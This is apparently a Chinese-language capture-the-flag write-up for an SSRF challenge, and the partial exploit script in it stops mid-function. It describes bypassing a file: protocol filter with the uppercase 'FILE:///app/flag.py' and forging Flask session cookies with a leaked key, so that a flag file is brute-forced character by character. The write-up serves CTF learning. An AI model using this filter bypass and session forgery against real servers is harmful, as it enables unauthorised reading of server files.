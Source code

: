 flag就在 flag.py文件里。

/get_hindd_result 过滤了file:协议，不能直接读取本地内容。。。大小写绕过

爆破脚本上。搞出flag.py

```py
def waf(req):
    if not req.base_url.startswith("http://127.0.0.1"):
        return "NoNo!!"
    if not req.full_path.endswith(".html?"):
        return "No!"
    return os.getenv("FLAG")
```

还是ssrf访问。继续爆flag。以.html?结束路径

### 完整脚本
```python
from urllib.request import Request

from requests_html import HTMLSession

base_url = 'http://1.14.71.254:28093'
# base_url = 'http://localhost:5000'
s = HTMLSession()


def step1():
    import base64
    import json

    url = '%s/getkey' % base_url

    res = s.head(url)
    print(res.text)

    session = res.headers.get('Set-Cookie')
    jwts = session.split('=')[1]
    j0 = jwts.split(';')[0].split('.')[0]

    d = base64.b64decode((j0 + '==').encode()).decode()

    d = json.loads(d)
    key = d.get('key')
    print(key)
    open('key.txt', 'w').write(key)


import flask_unsign

chars = '\n'
for i in range(32, 128):
    chars += chr(i)
from string import ascii_lowercase as al

chars = ' ' + al + chars.replace(al, '').replace(' ', '')


def step2():
    flag = 'def waf(req)'
    while True:
        for c in chars:  # 10-lf,13-cr
            txt = flag + c
            data = {'admin': False, 'data': txt.encode(), 'url': 'FILE:///app/flag.py'}  # work
            secret = open('key.txt', 'r').read()
```